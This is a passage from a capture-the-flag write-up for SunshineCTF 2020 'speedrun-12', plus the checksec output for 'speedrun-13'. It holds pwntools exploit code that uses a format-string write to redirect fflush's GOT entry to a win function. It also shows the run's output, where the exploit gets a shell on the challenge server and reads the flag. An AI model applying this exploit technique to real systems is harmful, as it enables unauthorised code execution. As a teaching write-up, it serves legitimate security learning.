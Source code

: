 ```python
main = int(_,16)
binary.address = main - binary.sym.main
log.info('binary.address: ' + hex(binary.address))
p.sendline()

offset = 6
payload = fmtstr_payload(offset,{binary.got.fflush:binary.sym.win})
p.sendline(payload)

null = payload.find(b'\x00')
p.recvuntil(payload[null-3:null])

p.interactive()
```

Output:

```bash
# ./exploit_12.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-12/chall_12'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.2020.sunshinectf.org on port 30012: Done
[*] binary.address: 0x565a8000
[*] Switching to interactive mode
V
$ id
uid=1000(chall_12) gid=1000(chall_12) groups=1000(chall_12)
$ ls -l
total 12
-rwxr-xr-x 1 root root     5940 Nov  7 07:49 chall_12
-rw-r----- 1 root chall_12   32 Nov  7 08:52 flag.txt
$ cat flag.txt
sun{the-stage-351efbcaebfda0d5}
```


## speedrun-13

### Checksec
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Other than shellcode (NX), all options on the table.
